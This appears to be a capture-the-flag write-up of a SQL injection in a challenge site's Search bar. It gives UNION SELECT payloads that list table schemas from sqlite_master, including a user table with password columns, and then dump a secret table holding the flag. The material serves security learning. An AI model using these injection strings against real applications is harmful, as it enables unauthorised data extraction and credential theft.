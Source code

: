 # Challenge `Wow, it can't be more juicy than this!` writeup

- Vulnerability: SQL injection
- Where: *Search* bar
- Impact: We can inject SQL code in the *Search* bar that will be executed

## Steps to reproduce

1. On the *Search* bar inject the following code: `' UNION SELECT 'a', sql, name FROM sqlite_master WHERE type ='table' AND name NOT LIKE 'sqlite_%' --`. We have to put the parameter *'a'* because in a **UNION** both **SELECT**s must have the same number of parameters
2. With this we will obtain 4 articles besides the ones that were already there that have the names of the tables existing in the database and their respective columns like this:

    CREATE TABLE blog_post ( id INTEGER NOT NULL, title TEXT, content TEXT, PRIMARY KEY (id), UNIQUE (title) ) -> sql
    blog_post -> name

    CREATE TABLE secret_blog_post ( id INTEGER NOT NULL, title TEXT, content TEXT, PRIMARY KEY (id), UNIQUE (title) )
    secret_blog_post

    CREATE TABLE user ( id INTEGER NOT NULL, username TEXT, password TEXT, bio TEXT, age INTEGER, tokens INTEGER, jackpot_val INTEGER, PRIMARY KEY (id), UNIQUE (username) )
    user

3. This means that there is a table called *secret_blog_post* where the flag might be hidden. If we inject the following code on the *Search* bar: `' UNION SELECT id, title, content FROM secret_blog_post --` we get the previous articles and a new one with the title *Reminder* and in its content there is the flag 



